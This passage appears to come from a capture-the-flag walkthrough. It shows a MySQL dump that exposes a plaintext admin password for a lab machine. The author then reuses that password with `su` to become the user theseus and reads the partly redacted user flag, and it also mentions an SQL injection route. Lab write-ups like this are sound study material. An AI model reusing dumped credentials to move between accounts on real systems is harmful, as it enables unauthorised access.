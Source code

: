     DROP TABLE IF EXISTS `login`;                            
    /*!40101 SET @saved_cs_client     = @@character_set_client */;
    /*!40101 SET character_set_client = utf8 */;
    CREATE TABLE `login` (                                   
      `id` int(6) NOT NULL AUTO_INCREMENT,                   
      `username` varchar(50) NOT NULL,                       
      `password` varchar(100) NOT NULL,                      
      PRIMARY KEY (`id`),                                    
      UNIQUE KEY `username` (`username`)                     
    ) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
    /*!40101 SET character_set_client = @saved_cs_client */;

    --
    -- Dumping data for table `login`
    --

    LOCK TABLES `login` WRITE;
    /*!40000 ALTER TABLE `login` DISABLE KEYS */;
    INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
    /*!40000 ALTER TABLE `login` ENABLE KEYS */;
    UNLOCK TABLES;                                           
    /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
    /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;                  
    /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
    /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
    /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
    /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
    /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
    /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;                
    -- Dump completed on 2020-04-19 11:21:47



This tool dumps out SQL such that all the commands are here to rebuild
this database. There's one `INSERT` statement for the `login` table:



    INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');



### su

These creds do work to login without SQLi on the webpage, but they also
work for `su` to theseus:



    www-data@ubuntu:/home/theseus$ su - theseus
    Password: 
    theseus@ubuntu:~$



And from there I can grab `user.txt`:



    theseus@ubuntu:~$ cat user.txt
    65e8f262************************
